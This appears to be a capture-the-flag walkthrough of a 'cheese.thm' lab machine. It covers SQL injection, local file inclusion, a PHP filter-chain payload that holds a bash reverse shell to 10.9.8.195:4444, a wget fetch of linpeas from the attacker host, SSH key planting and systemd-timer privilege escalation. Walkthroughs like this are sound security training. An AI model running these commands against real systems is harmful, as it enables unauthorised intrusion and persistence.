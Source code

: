 NMAP
An nmap scan showed that almost every port that was scanned is open, when doing a litle research found that this machine they have done portspoofing as explaiined on

[this url from black hills](https://www.blackhillsinfosec.com/how-to-use-portspoof-cyber-deception/)

Visited the ip on a web browser and found:

![Screenshot From 2025-05-23 22-46-23](https://github.com/user-attachments/assets/1c16bfb6-d943-47d0-a1e5-3712eda2e81c)

WEB ENUM
Some of the tools that we shall use for web enumeration are
```
dirsearch #directories

vhost fuzzing # [use this](https://github.com/TeneBrae93/offensivesecurity) then navigate to the vhost script make it executable then run it:
 ```bash
./vhost-fuzzer.sh cheese.thm /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://cheese.thm 1
```
Browse the page and found a login page, tried some passwords but nothing seemed to be working

Lets try ``sqlmap`` is a tools used for detecting and exploiting SQL injection vulnerabilities in web applications.

![Screenshot From 2025-05-23 23-49-40](https://github.com/user-attachments/assets/e7fb4c57-b6c5-4fdc-8224-069f8a7913e4)

After running the command got access to the admin panel

![Screenshot From 2025-05-23 23-50-59](https://github.com/user-attachments/assets/7e82a163-a9f1-4eff-90de-3627298fed5b)

when I navigate to the message tab on the admin panel I see the url has php:filter:
![Screenshot From 2025-05-23 23-57-53](https://github.com/user-attachments/assets/975c8445-1ff4-4439-89d9-7360e11c4a19)

On the admin or message  url we can manipulate the url to /etc/passwd:

![image](https://github.com/user-attachments/assets/0587c199-8043-4af5-a624-e51910199955)

On this point want to have a reverse shell 

What I have done is that I used this command to download the payload that is going to open the reverse shell when executed

```bash
 python3 php_filter_chain_generator.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.9.8.195/4444 0>&1'\"); ?>" | grep "^php" > payload.txt

```
this downloads a payload that I updated on the burp while setting a listener on the terminal to access the shell:

![Screenshot From 2025-05-24 12-06-05](https://github.com/user-attachments/assets/c4f7f6b7-a5c5-42a9-b85f-49640b50152f)

this is the payload 

![Screenshot From 2025-05-24 12-07-00](https://github.com/user-attachments/assets/e6e4546c-4975-47b8-882a-977cbdc21494)

Since we have the shell 

Lets download linpeas on the victim's machine
```bash
wget http://10.9.8.195:8000/linpeas.sh -O /tmp/linpeas.sh

chmod +x linpeas.sh

./llnpeas.sh
```
![Screenshot From 2025-05-24 12-20-25](https://github.com/user-attachments/assets/c1b10a5c-e4a1-4c03-9064-6f503beb4950)

shows a .ssh file of the comte user it has authorized_keys file and this contains the ssh keys of authorized users who can establish an SSH connection as user comte on the target.

lets generate the ssh key
```bash
ssh-keygen -t rsa
```
![Screenshot From 2025-05-24 12-29-18](https://github.com/user-attachments/assets/f5e78564-fac4-4d93-99ae-9ac0a8b76882)

Copy the public ssh key from id_rsa.pub file

![Screenshot From 2025-05-24 12-28-00](https://github.com/user-attachments/assets/21d17520-61ca-4457-b9c3-4ddec485031e)

Paste the key on the authorizad_keys file

![Screenshot From 2025-05-24 13-47-16](https://github.com/user-attachments/assets/cd57844d-7b49-409b-aab9-94dc31330f27)

Lets login using comte ``ssh -i id_rsa comte@10.10.108.215`` on the terminal of your machine

![Screenshot From 2025-05-24 13-48-52](https://github.com/user-attachments/assets/d26a2cb4-640b-4d14-b690-2c563b6a20c5)

then access the user.txt file using ``cat user.txt``

PRIVELAGE ESCALATION 
lets see the commands that have root access by ``sudo -l``

![Screenshot From 2025-05-24 13-51-28](https://github.com/user-attachments/assets/ca4bf30a-18d2-4ae8-bd5d-2bb95a993efb)

Lets navigate to the directory where services are stored ``/etc/systemd/system``

can checked the exploit.timer file using cat

I also had writable permission. I pasted the whole script on ChatGPT and told it the whole context then I got to know that i have to change the value of OnBootSec variable so I did that and changed the value to 5s

![image](https://github.com/user-attachments/assets/c5cf728f-0adb-4b30-abc7-bb6efd792c96)

used nano to edit exploit.timer

to a 5second on bootsec

Then run this commands 
```bash
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl restart exploit.timer
 cd /opt
```

![Screenshot From 2025-05-24 13-58-44](https://github.com/user-attachments/assets/d82fccf0-7785-49f8-9ccb-64d191da3f76)

Did research on what is `xxd` and found:

The xxd command is a hex dump utility for Linux/Unix systems. It can create a hex dump of a file or convert a hex dump back into binary.

 What xxd Does:

Hex Dump: Converts binary data into a readable hexadecimal + ASCII format.

Reverse Hex: Converts hex dump back to the original binary data.

used this to get the root.txt flag














